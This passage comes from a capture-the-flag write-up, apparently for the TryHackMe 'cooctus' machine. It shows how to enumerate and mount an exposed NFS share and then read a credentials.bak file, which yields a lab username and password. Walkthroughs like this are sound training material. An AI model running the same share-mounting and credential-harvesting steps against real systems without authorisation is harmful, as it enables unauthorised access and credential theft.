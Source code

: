 We find a couple of folders, cat points to login, login gives us this:

![cooctus-login](/assets/images/2021-04-19-21-12-05.png)

A dead end for now as we have no credentials. Looking back at the port list we see 2049 which is an NFS port, let's see if any shares are exposed:

```text
┌──(root💀kali)-[~/thm/cooctus]
└─# showmount -e cooctus.thm                            
Export list for cooctus.thm:
/var/nfs/general *
```

One called general is visible, let's try to mount it and see what's inside:

```text
┌──(root💀kali)-[~/thm]
└─# cd /root/thm/cooctus

┌──(root💀kali)-[~/thm/cooctus]
└─# mkdir nfs    

┌──(root💀kali)-[~/thm/cooctus]
└─# mount -t nfs cooctus.thm:/var/nfs/general /root/thm/cooctus/nfs

┌──(root💀kali)-[~/thm/cooctus]
└─# ls -lsa nfs                      
total 12
4 drwxr-xr-x 2 nobody nogroup 4096 Nov 21 18:24 .
4 drwxr-xr-x 3 root   root    4096 Apr 19 21:16 ..
4 -rw-r--r-- 1 root   root      31 Nov 21 18:24 credentials.bak

┌──(root💀kali)-[~/thm/cooctus]
└─# file nfs/credentials.bak            
nfs/credentials.bak: ASCII text

┌──(root💀kali)-[~/thm/cooctus]
└─# cat nfs/credentials.bak        
paradoxial.test
ShibaPretzel79
```

Ok well that was eventful! Let's see if these creds work for the login page we found before:
